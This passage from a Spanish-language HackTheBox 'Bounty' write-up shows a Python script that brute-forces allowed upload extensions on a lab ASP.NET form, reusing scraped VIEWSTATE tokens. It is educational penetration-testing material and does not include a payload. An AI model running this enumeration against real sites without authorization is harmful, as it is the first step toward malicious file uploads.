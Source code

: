 Puedo subir un archivo

<img src="/writeups/assets/img/Bounty-htb/2.png" alt="">

Creo un script en python para probar todas las extensiones

```null
#!/usr/bin/python3

from pwn import *
import sys, signal, requests, re, pdb

def def_handler(sig, frame):
    sys.exit(1)

# Variables globales
main_url = "http://10.10.10.93/transfer.aspx/transfer.aspx"
burp = {'http': 'http://localhost:8080'}

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

def makeRequests(extension):

    s = requests.session()
    r = s.get(main_url)

    viewstate = re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0]
    eventvalidation = re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0]

    post_data = {
        '__VIEWSTATE': viewstate,
        '__EVENTVALIDATION': eventvalidation,
        'btnUpload': 'Upload'
    }

    fileUpload = {'FileUpload1': ('Test%s' % extension, 'Testing')}

    r = s.post(main_url, data=post_data, files=fileUpload, proxies=burp)

    if "Invalid File. Please try again" not in r.text:
        log.info("Extension %s is valid!!" % extension)


if __name__ == '__main__':

    f = open("/usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-extensions-lowercase.txt", "rb")

    p1 = log.progress("")
    p1.status("Starting...")

    for extension in f.readlines():
        extension = extension.decode().strip()
        p1.status("Testing with %s" % extension)
        makeRequests(extension)
```
